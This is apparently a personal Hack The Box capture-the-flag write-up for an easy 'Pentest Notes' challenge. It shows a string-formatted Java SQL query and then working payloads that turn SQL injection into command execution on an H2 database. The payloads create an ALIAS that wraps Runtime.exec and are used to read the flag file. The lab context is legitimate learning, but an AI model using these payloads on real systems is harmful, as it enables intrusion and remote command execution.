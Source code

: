 ```yaml
---
title: Pentest Notes
tags:
  - HackTheBox
  - Challenge
  - Easy
  - SQLi
  - H2_Database
  - Command-Injection
date: 2024-09-15T00:00:00Z
---
```

![](Pasted%20image%2020241115171026.png)

I found the creds `user:123` in the source code. Analyzing the code I discovered a basic SQLi vulnerability:

```java
String query = String.format("Select * from notes where name ='%s' ", name);
```

If we put: `hello' OR 1=0 -- -` we've got it. I dumped all the tables, but didn't found anything, so I managed that might be something harder. Inspecting he source further I found that an H2 Java SQL database was in use:

```shell
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

So I searched for "*H2 database command injection through sqli*", and found [this article](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
- I've created a note about it :D -> [H2 databases 🥁](/notes/h2_databases.md)

Basically, if I capture the petition with burp and **Do intercept** the petition I can modify the POST parameter and inject there an ALIAS:

- First I create the alias:

```sql
SQL Injection' or 1=0; CREATE ALIAS FUCKED AS '  
String fucked(String cmd) throws java.io.IOException {  
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");  
    return s.hasNext() ? s.next() : "";  
}';-- -
```

- Then I call it by inserting a command in the notes table (I spend two days to manage this out xd):

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('id')); --
```

- Then I performed a UNION SQLi to check if the command output was written to the table:

```shell
SQL Injection' OR 1=0 UNION SELECT * from notes -- -
```

![](Pasted%20image%2020241115172002.png)

> *BINGO, BANGO, BONGO!* We got this!

So we can check the `/` directory for the flag (it name is random):

![](Pasted%20image%2020241115172115.png)

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('ls /')); --
```

![](Pasted%20image%2020241115172158.png)

So in my case, the flag is called `JN8fe3XRqTYK_flag.txt`, so I cat it:

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('cat /JN8fe3XRqTYK_flag.txt')); -- -
```

> And got the flag!

![](Pasted%20image%2020241115172319.png)

==Challenge completed!==
